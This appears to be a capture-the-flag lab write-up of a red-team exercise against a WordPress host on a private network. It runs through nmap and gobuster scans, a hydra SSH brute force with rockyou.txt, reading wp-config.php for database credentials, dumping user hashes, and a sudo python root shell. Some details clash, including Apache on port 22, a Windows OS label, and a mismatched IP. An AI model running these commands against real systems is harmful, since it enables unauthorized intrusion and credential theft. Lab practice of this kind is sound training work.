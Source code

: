 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
nmap -sS -A 192.168.1.110

```
  ![](../images/nmap-a1.png)
  ![](../images/nmap-a2.png)


This scan identifies the services below as potential points of entry:

- **Target 1**

- Open port 22 dedicated to SSH services
- Open port 80 dedicated to HTTP services
- Apache http version 2.4.1.0 running on the open port 22
- OS version Windows 6.1 (Smba 4.2)


  

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- **Target 1**

  - [Flag 1 Screen Shot ](../images/flag1-view-source2.png), `Flag1.txt`: **flag1{b9bbcb33e1b80be759c4e844862482d}**
   
    - **Exploit Used**

      - Using gobuster to identify web directories and exploring them during scanning and enumeration 
      - **`gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium dir -e -u http://192.168.1.110 -x .php,txt,html`**

      - Upon inspection of the source code of service page flag1 was identified in comments under the code for the html footer

  - [Flag 2 Screen Shot](../images/flag2.png), `Flag2.txt`: **flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**

    - **Exploit Used**
     - Remote SSH connection after identifying a user with wpscan. One of the users identified was michael
     - `wpscan --url http://192.168.1.110/wordpress -eu`

     - Brute forcing the pssword for michael wiht hydra
     - **`hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4`**

     - Connecting via SSH as Michael
     - **`ssh michael@192.168.1.10`**

     - Searching for the flag
     - **`find -type f -iname ‘flag*’ 2>dev/null`**
    
  - [Flag 3 Screen Shot](../images/flag34-2.png), Flag3.txt: **flag3{afc01ab56b50591e7dccf93122770cd2}**

    - Inspecting wp-config.php to look for root access password to MySQL database
    - **`cat /var/www/html/wordpress/wp-config.php`**

    - Loging on to the MySQL server
    - **`mysql -u root -p`**

    - Inspecting MySQL tables  for flags
    - **`show databases;`**
    - **`show tables`**
    - **`select * from wp_posts;`**

  - [Flag 4 Screen Shot](../images/flag4.png), Flag4.txt: **flag4{715dea6c055b9fe3337544932f2941ce}**
    - The hashes found in the MySQL table using **`select * from wp_users;`** are used to identify the password for Steven
    - Steven's account was used, because Michael's account did not have write or `sudo` privilidges to execute python code
    - **`ssh steven@192.168.1.10`** is used to connect to Target 1 via Steven's credentials

    - The code below is esclates to root privilidges and flag 4 was found inside the root directory
    - **`sudo python -c 'import pty;pty.spawn("/bin/bash");'`**


